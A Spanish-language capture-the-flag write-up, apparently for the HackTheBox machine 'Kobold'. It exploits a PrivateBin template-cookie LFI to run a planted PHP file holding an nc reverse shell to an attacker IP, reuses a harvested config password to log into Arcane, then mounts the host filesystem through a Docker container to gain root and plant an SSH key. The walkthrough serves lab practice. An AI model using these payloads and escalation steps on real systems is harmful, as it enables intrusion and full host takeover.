No podemos tocar `cfg`, pero sí podemos abrir **y editar** `data`. Recordemos que además tenemos una vulnerabilidad de LFI:

> *PrivateBin versiones 1.7.7 a 2.0.2 presentan una vulnerabilidad crítica de LFI en la función de cambio de plantilla, permitiendo la lectura de archivos sensibles o la ejecución remota de código (RCE). El fallo ocurre cuando templateselection está activo, permitiendo a un atacante manipular la cookie template*.

Podemos conseguir RCE, pero ahora bien, como quién se ejecuta Privatebin? Si volvemos a `www-data` de poco nos sirve. Dado que no tenemos permisos para usar p.ej `sudo ss -ltnp 'sport = :8080'` o similares, jugamos a ciegas.

Aprovechando el CVE y mirando una forma de explotarlo en [una página](https://privatebin.info/reports/vulnerability-2025-11-12-templates.html), veo que es tan simple como esto:
```bash
ben@kobold:/privatebin-data/data$ curl localhost:8080 -b 'template=../cfg/conf' -v
# Pero...
* Host localhost:8080 was resolved.
...[SNIP]...
* Connected to localhost (127.0.0.1) port 8080
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> Cookie: template=../cfg/conf
> 
< HTTP/1.1 500 Internal Server Error
< Server: nginx
...[SNIP]...
```

Y si probamos con cualquier otra cosa:
```bash
ben@kobold:/privatebin-data/data$ curl localhost:8080 -b 'template=../../../etc/passwd'
<!DOCTYPE html>
<html lang="en" class="h-100">
	<head>
		<meta charset="utf-8" />
...[SNIP]... # HTML
```

Cada vez que usamos esta vulnerabilidad, el servidor añade un sufijo `.php` al nombre pasado en template, por eso, al no encontrar `/etc/passwd.php` simplemente devuelve la página, pero al encontrar un archivo que sí existe e intentar ejecutarlo (En este caso un archivo de configuración `conf.php`) da error.

Si creamos un `shell.php` en `/privatebin-data/data` y luego lo usamos para el LFI:
```bash
ben@kobold:/privatebin-data/data$ cat shell.php 
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.219 4444 >/tmp/f");?

# Añadimos permisos
ben@kobold:/privatebin-data/data$ chmod 777 shell.php

# Lo llamamos en el LFI
ben@kobold:/privatebin-data/data$ curl localhost:8080 -b 'template=../data/shell'
```

Desde un listener en escucha:
```bash
$ penelope -i 10.10.14.219
[+] Listening for reverse shells on 10.10.14.219:4444 
[+] Got reverse shell from 4c49dd7bb727~10.129.16.140-Linux-x86_64 😍️ Assigned SessionID <2>
[+] Shell upgraded successfully using /var/tmp/socat! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
/bin/sh: can't access tty; job control turned off

whoami
nobody
```

Y hemos llegado a ser `nobody` dentro de un sistema Alpine Linux en un container Docker, dentro de lo que cabe, tenemos algo nuevo.

### Aprovechando la bajada
> [!tip]+ Nota: Movimiento lateral
> En esta situación e incluso antes de entrar al container, ya había descartado explotar el LFI porque suponía que acabaríamos aquí y porque no me había servido *para el foothold inicial*, y veía contraintuitivo el estar "bajando de privilegios" desde la máquina principal a un container. Visto lo visto, es igual de importante subir hacia arriba que bajar hacia abajo, mientras aporte información que permita subir más alto luego. Conclusión, **nunca descartar un CVE conocido**, aunque parezca inútil al principio.

Lo bueno de tener acceso directo al container es que podemos buscar toda la configuración de Privatebin. Tras una búsqueda:
> *PrivateBin's configuration file is located at cfg/conf.php relative to the installation's root path.*

Así que buscamos el nombre del archivo:
```bash
$ find / -name "conf.php" 2>/dev/null
/srv/cfg/conf.php
```

Y ahora lo abrimos (filtrando los comentarios con `;`, que eran bastantes):
```bash
$ cat /srv/cfg/conf.php | grep -v ";"

...[SNIP]...
[model]
[model_options]
usr = "privatebin"
pwd = "ComplexP@sswordAdmin1928"
```

Y al final encontramos la contraseña `ComplexP@sswordAdmin1928`.

### Volviendo a subir
Una vez tenemos la contraseña, podemos intuir que se reutilizará en algún sitio, y dado que Arcane es el único lugar para el que necesitamos contraseña, y para el que tenemos un user por defecto, usaremos la combinación `arcane`:`ComplexP@sswordAdmin1928`.

> [!tip] Nota: Reutilización de contraseñas
> Aunque en este caso no sirvió, también habría que probar a hacer `su alice` o incluso `su root` con las mismas credenciales, nunca se sabe lo que puede pasar.

En definitiva, probamos las credenciales y:


Ahí encontramos 2 imágenes: `privatebin`, la que acabamos de visitar; y `mysql`. En un primer momento pienso que en `mysql` puede haber datos que podríamos conseguir, pero realmente es probable que simplemente sea una imagen limpia, así que buscamos otro modo.

Pasado un rato buscando cómo puede aprovecharse la situación, veo que es posible crear un container (aprovechando que docker se ejecuta como root) en el que seamos root, y montar ahí todo el sistema de archivos real, obteniendo privilegios sobre todo el sistema. El proceso sería algo así:
1. Crear container Docker en el que somos root usando cualquier imagen a mano.
2. Montar, p.ej en `/mnt/host` (del container) el filesystem `/` (del host).
3. Desplegar el container
4. Obtener shell
  - Arcane tiene un shell para cada container en `[Containers]`> (En los 3 puntos del container específico) `[Inspect]`>`[Shell]`

Así que vamos a `[Containers]` > `[Create Container]` y ahí llenamos las opciones.





Una vez configurado, lo creamos e iniciamos, luego vamos al apartado shell:



Y tenemos root (aunque en una ventana del navegador). Si por gusto queremos conseguir un shell más estable y menos limitado, podemos subir la clave pública que teníamos antes al `authorized_keys` de `/root/.ssh`:



```sh
$ ssh root@kobold.htb -i ben_root    
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-106-generic x86_64)

root@kobold:~#
```

Y ahora tenemos root (en condiciones).
